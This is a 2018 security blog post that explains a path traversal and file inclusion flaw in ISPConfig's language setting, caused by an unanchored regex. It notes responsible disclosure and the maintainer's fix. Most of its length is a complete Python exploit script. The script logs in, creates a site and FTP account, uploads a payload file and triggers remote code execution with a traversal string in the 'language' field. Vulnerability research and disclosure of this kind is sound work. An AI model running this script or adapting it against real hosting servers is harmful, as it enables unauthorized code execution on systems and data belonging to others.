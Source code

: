 ```yaml
---
layout: post
title:  "Bug or Backdoor - Exploiting a Remote Code Execution in ISPConfig"
date:   2018-08-20
categories: security ispconfig exploit vulnerability
---
```


## Introduction

In this blogpost I will write about a suspicion I had which turned out to be false, how regex-es can go wrong and also how to chain logic features to achieve reliable Remote Command Execution. 

I was having a coffe with one of my friends who works at a web-hosting company and talking about the software they use. There I heard about ISPConfig and how many features and secure it was.Since I had some free time , I decided to have a look at it and managed to find a critical vulnerability in it.


## Finding the vulnerability

I downloaded and installed ISPConfing on a Ubuntu VM and started analyzing the source code.
There were a lot of bad practices in the code, but there were also a lot of checks which made most of the code unexploitable.ISPConfig works as a system which contains clients,
and they can create websites, ftp accounts etc., but all of them are on their own chroot.


The first thing that I do when I audit some software is to find out what the attack surface is, and what kind of bugs I want to find.  Seeing this kind of architecture I decided to audit the code that was exposed from a client user. So I started auditing it , and after a lot of failed attempts because of the aggressive checks done by ISPConfig, I found something interesting in the ```user_settings.php ``` file.

On almost any file there is a call to ``` include ISPC_ROOT_PATH.'/web/login/lib/lang/'.$_SESSION['s']['language'].'.lng';``` Searching a little bit of where this value was initialized I found the source code below.

```php
 if(preg_match('/[a-z]{2}/',$_POST['language'])) {
            $_SESSION['s']['user']['language'] = $_POST['language'];
            $_SESSION['s']['language'] = $_POST['language'];
        } else {
            $app->error('Invalid language.');
        }

```
And I was like: "Come on , not regex checks again."

But after reading the regex I noticied a flaw in the logic. The problem is that every string that contains two [a-z] characters will match the regex, and there were no further checks for path traversal attacks.

This was very strange since all of the regexes in the code had the ``` ^ regex-pattern $``` which only matched if the entire string matched the pattern not only a part of it.

Seeing this I was suspicious if this was a backdoor and not some random flaw, but after talking with Till (Maintainer of ISPConfig) he told me that it wasn't the case and the code dated back as the first version of ISPConfig 3 and it was something that was missed during the internal audits.

## Exploiting the vulnerability 

From the analysis now we have a directory traversal which can be abused for local file inclusion attacks.

Since in the new versions of php we can not use null byte injections, either a path-truncation attack but we can create a ftp-account, upload the file we want to include with ```.lng ``` extension at our path and the code will get executed as the ispconfig account and not as our chroot-ed account.


So the idea of the exploit is like this :

1. Create a Site
2. Create an FTP Account
3. Disclose the current path of the FTP upload directory.
4. Upload the payload to our directory.
5. Include the uploaded payload.
6. RCE Achieved !!!

I wrote an exploit for this bug, which automatically did all the steps above by itself.
Below is an image of the exploit in action.

![Exploiting the vulnerability](/images/isp-config-exploit.png)

## Closing remarks

This was a nice bug to find and could have been missed very easily.
An important thanks goes to Till Brehm who acknoledged the vulnerability and fixed it in 1 day, which is impressive.

You can find more details on how to update [here](https://www.ispconfig.org/blog/ispconfig-3-1-13-released-important-security-bugfix/).

# Exploit code

```python
import requests
import ftplib
import json
import time
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)


host = "REPLACE_IP:8080"
username = "REPLACE_Username"
password = "REPLACE_Password"

exp = requests.session()
user_agent = 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:57.0) Gecko/20100101 Firefox/57.0'
ftp_username = "randomusr1"
domain = "pwnerrr.com"
site_id = 1
payload_name = "pwned1"
path = ""



def login():
	r = exp.post('https://%s/login/index.php' % host,data={'username':username,'password':password,'s_mod':'login','s_pg':'index'},verify=False)
	if(r.text.find("wrong")>0):
		print "[-] Incorrect credentials [-]"
	else:
		print "[+] Logged in Succesfully [+]"


def createSite():
	
	r = exp.get('https://%s/sites/web_vhost_domain_edit.php' % host,verify=False)
	_csrf_key = r.text.split('name="_csrf_key" value="')[1].split('"')[0]
	_csrf_id = r.text.split('name="_csrf_id" value="')[1].split('"')[0]
	phpsessid = r.text.split('name="phpsessid" value="')[1].split('"')[0]
	r = exp.post('https://%s/sites/web_vhost_domain_edit.php' % host,data={'server_id':1,'ip_address':'*','ipv6_address':'','domain':'%s' % domain,'hd_quota':1024,'traffic_quota':1024,'subdomain':'www','php':'no','fastcgi_php_version':'','active':'y','id':'','_csrf_id':'%s' % _csrf_id,'_csrf_key':'%s' % _csrf_key,'next_tab':'','phpsessid':'%s' % phpsessid},verify=False)
	pass

def createFtp():
	global site_id
	r = exp.get('https://%s/sites/ftp_user_edit.php' % host,verify=False)
	print "[+] Getting IDSof the sites [+]"
	temp_array = r.text.split('<option value=')
	nr_sites = len(temp_array)
	print "[+] Number of sites %d [+]" % (int(nr_sites) - 1)
	# Find the latest created site by checking the ID.
	max_id = -9999

	for i in range(1,nr_sites):
		temp = int(temp_array[i].split('>')[0].replace("'",""))
		if(temp > max_id):
			max_id = temp
	site_id = max_id
	print "[+] Newly created site id is : %d [+]" % site_id
	_csrf_key = r.text.split('name="_csrf_key" value="')[1].split('"')[0]
	_csrf_id = r.text.split('name="_csrf_id" value="')[1].split('"')[0]
	phpsessid = r.text.split('name="phpsessid" value="')[1].split('"')[0]
	r = exp.post('https://%s/sites/ftp_user_edit.php' % host,data={'parent_domain_id':site_id,'username':'%s' % ftp_username,'password':'%s' % password,'repeat_password':'%s' % password,'quota_size':1024,'active':'y','id':'','_csrf_id':'%s' % _csrf_id,'_csrf_key':'%s' % _csrf_key,'next_tab':'','phpsessid':'%s' % phpsessid},verify=False)
	print "[+] Created FTP Account [+]"
	pass


def uploadPayload():
	ftp = ftplib.FTP(host.split(":")[0])
	ftp.login(username+ftp_username, password)
	ftp.cwd("web")
	ftp.storlines("STOR %s.lng" % payload_name,open("test.txt"))
	print "[+] Payload %s uploaded Succesfully [+]" % payload_name
	pass

def waitTillCreation():
	while 1:
		print "[+] Trying [+]"
		r = exp.get('https://%s/datalogstatus.php' % host,verify=False)
		temp = json.loads(r.text)
		if(temp["count"] == 0):
			print "[+] Everything created .... [+]"
			return
		time.sleep(5)

def getRelativePath():
	
	global path

	r = exp.get('https://%s/sites/web_vhost_domain_edit.php?id=%d&type=domain' % (host,site_id),verify=False)
	path = r.text.split('Document Root</label>')[1].split('<div class="col-sm-9">')[1].split('<')[0]
	path += "/web/" + payload_name
	print "[+] Uploading payload in %s [+]" % path

def triggerVuln():
	r = exp.get('https://%s/tools/user_settings.php' % host,verify=False)
	_csrf_key = r.text.split('name="_csrf_key" value="')[1].split('"')[0]
	_csrf_id = r.text.split('name="_csrf_id" value="')[1].split('"')[0]
	phpsessid = r.text.split('name="phpsessid" value="')[1].split('"')[0]
	user_id = r.text.split('name="id" value="')[1].split('"')[0]
	r = exp.post('https://%s/tools/user_settings.php' % host,data={'passwort':'','repeat_password':'','language':'../../../../../../../../../../../../../..%s' % path,'id':'%s' % user_id,'_csrf_id':'%s' % _csrf_id,'_csrf_key':'%s' % _csrf_key,'next_tab':'','phpsessid':'%s' % phpsessid},verify=False)
	r = exp.get('https://%s/index.php'% host,verify=False)
	print r.text

login()
createSite()
createFtp()
getRelativePath()
waitTillCreation()
uploadPayload()
triggerVuln()

```
